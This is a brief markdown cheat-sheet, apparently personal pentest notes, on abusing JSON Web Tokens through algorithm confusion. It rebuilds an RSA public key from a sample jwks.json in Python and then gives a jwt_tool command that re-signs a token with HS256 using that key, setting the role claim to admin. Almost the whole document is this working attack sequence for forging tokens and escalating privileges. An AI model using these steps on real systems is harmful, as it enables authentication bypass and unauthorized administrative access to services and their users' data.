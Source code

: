 ```yaml
---
title: "JWT"
date: 2025-7-25
tags: ["Jwt", "Jwks", "Cookies", "Cryptography", "Web Exploitation", "Token-Based Authentication"]
---
```


### Abuse #1: Algorithm Confusion

#### 0. Sample jwks.json

```console
{ 
    "keys": [
        {
        "kty": "RSA",
        "use": "sig",
        "alg": "RS256",
        "n": "<BASE64_n>",
        "e": "AQAB"
        }
    ]
}
```

#### 1. Create a Public Key

```console
# Invoking python interpreter
python3
```

```console
from base64 import urlsafe_b64decode
```

```console
from Crypto.PublicKey import RSA
```

```console
e = int.from_bytes(urlsafe_b64decode(b'AQAB'))
```

```console
n = int.from_bytes(urlsafe_b64decode(b'<BASE64_N>'))
```

```console
key = RSA.construct((n, e))
```

```console
# Save it to public.pem
print(key.exportKey().decode())
```

#### 2. Forge a jwt

```console
# For example, modify role to admin
python3 jwt_tool.py -S hs256 -k public.pem -I -pc role -pv admin <JWT>
```

<small>*Ref: [jwt_tool](https://github.com/ticarpi/jwt_tool)*</small>
